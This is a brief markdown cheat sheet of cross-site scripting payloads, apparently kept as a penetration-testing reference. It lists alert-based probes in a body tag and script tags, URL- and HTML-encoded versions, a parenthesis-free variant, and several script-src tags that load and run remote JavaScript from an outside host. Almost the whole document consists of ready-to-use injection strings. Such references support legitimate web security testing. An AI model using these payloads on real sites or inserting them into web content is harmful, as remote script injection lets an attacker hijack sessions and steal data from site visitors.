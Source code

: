 # XSS Cheatsheet

Resources: 
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- https://portswigger.net/research/xss-without-parentheses-and-semi-colons

---

XSS Payloads references below:
- https://aerst.one/p/xss.html
- https://thegetch.github.io/x

---

### In `<body>` tag:
```
<body onload=alert('test1')>
```

### In `<script>` tags:
```
<script>alert(1);</script>
```
```
<script>alert("XSS");</script>
```
- URL encoded:`%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%58%53%53%22%29%3b%3c%2f%73%63%72%69%70%74%3e`
- HTML encoded:`&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x22;&#x58;&#x53;&#x53;&#x22;&#x29;&#x3b;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;`

No quotes:
```
<script src=//thegetch.github.io/x></script>
```

Added spaces:
```
<script src = //thegetch.github.io/x></script>
```

With quotes:
```
<script src="//thegetch.github.io/x"></script>
```

Other alternatives:
```
<script x src = //thegetch.github.io/x></script>
```
```
< SCRIPT X SRC = //THEGETCH.GITHUB.IO/X></SCRIPT>
```

No parentheses:
```
<script>onerror=alert;throw 1337</script>
```
